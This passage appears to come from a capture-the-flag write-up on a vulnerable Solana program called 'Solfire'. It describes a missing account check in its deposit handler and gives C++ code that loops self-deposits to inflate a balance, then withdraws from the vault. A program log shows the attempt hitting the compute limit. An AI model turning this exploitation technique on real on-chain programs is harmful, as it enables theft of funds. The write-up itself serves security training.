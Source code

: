 Then finally this can be used to work with the potentially expected naive non-exploited workflow, creating an account depositing 5 lamports and withdrawing them again.

```cpp
uint32_t lamports = 5;
create_account(balances_account().key, user_account().key);
deposit(balances_account().key, lamports, user_account().key, vault_account().key);
withdraw(balances_account().key, lamports, user_account().key, vault_account().key);
```


## Deposit bug

The first bug that I spotted was that `handle_deposit` doesn't validate that the accounts specified aren't the same account or that the solana account is in anyway associated with the funder and recipient.

So this means that we could specify the user account with it's balance that we already start with as signed to transfer money to itself, until the solfire owned account gets it's deposit amount up to 50k amount.

So let's slightly change the approach we are doing

```cpp
uint32_t target = 50'000;
create_account(balances_account().key, user_account().key);
while (*user_account().lamports < target)
{
    deposit(balances_account().key, *user_account().lamports, user_account().key, user_account().key);
}
withdraw(balances_account().key, target, user_account().key, vault_account().key);
```

Unfortunately when attempting to this we exceed the maximum number of instructions

```
....truncated
Program log: Solfire start
Program log: handle_deposit
Program 11111111111111111111111111111111 invoke [3]
Program 11111111111111111111111111111111 success
Program 96e3EUQXXb9M5NHU9Vbn4CMfC577ko8dWnRpQKrwDdjn consumed 44303 of 62667 compute units
Program 96e3EUQXXb9M5NHU9Vbn4CMfC577ko8dWnRpQKrwDdjn success
Program 96e3EUQXXb9M5NHU9Vbn4CMfC577ko8dWnRpQKrwDdjn invoke [2]
Program log: Solfire start
Program 96e3EUQXXb9M5NHU9Vbn4CMfC577ko8dWnRpQKrwDdjn consumed 17282 of 17282 compute units
Program failed to complete: exceeded maximum number of instructions allowed (17282) at instruction #204
Program 96e3EUQXXb9M5NHU9Vbn4CMfC577ko8dWnRpQKrwDdjn failed: Program failed to complete
Program EGuk7HfhxRAHWGsBw2sayNKY8tTPgCsWkGto57krYTj9 consumed 200000 of 200000 compute units
Program EGuk7HfhxRAHWGsBw2sayNKY8tTPgCsWkGto57krYTj9 failed: Program failed to complete
```

I did try attempting to increase perform a call to the compute budget program to get more, but this was unsuccessful.
